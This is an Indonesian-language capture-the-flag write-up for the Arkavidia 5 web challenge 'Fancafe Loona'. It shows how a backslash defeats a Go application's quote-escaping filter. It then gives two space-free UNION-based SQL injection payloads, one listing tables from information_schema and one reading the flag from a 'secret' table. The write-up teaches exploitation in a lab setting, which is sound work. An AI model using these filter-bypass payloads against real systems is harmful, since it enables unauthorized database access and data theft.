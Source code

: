```yaml
---
comments: true
title: 'Arkavidia 5: Fancafe Loona'
date: 2019-02-13 17:00:00 +0000
category:
- Ctf
tags:
- Arkavidia
private: false

---
```

### Fancafe Loona - Web

Diberikan website menggunakan `go` yang mempunyai fitur untuk mencari post dan melihat detail dari post, dengan route sebagai berikut.

![](/uploads/Capture.PNG)Kita juga diberikan akses terhadap source codenya yang bisa digunakan untuk memudahkan kita menemukan entrypoint eksploitasi pada aplikasi tersebut, dan ditemukan aplikasi sudah mengimplementasikan proteksi terhadap serangan `SQL Injection` 

![](/uploads/Capture-1.PNG)

Namun sayang nya filter tersebut belum cukup untuk mengamankan dari serangan `SQL Injection` karena dapat di bypass dengan memanfaatkan backslash `\` .

> '  => \\'
>
> \\' => \\\\'

Dengan menggunakan `\'` kita dapat melakukan bypass terhadap filter tersebut, kemudian lakukan union dengan normal namun tanpa menggunakan spasi.

Menggunakan payload berikut kita dapat memunculkan list table yang ada melalui information_schema.

    TESTING\')and(1)=(0)union(select(1),1,1,1,table_name,1,(1)from(information_schema.tables)where(table_schema)!=(0x696e666f726d6174696f6e5f736368656d61))#

![](/uploads/Capture-2.PNG)

Kemudian fetch flag dari table secret dengan payload `TESTING\')and(1)=(0)union(select(1),1,1,1,flag,1,(1)from(secret))#`

![](/uploads/Capture-3.PNG)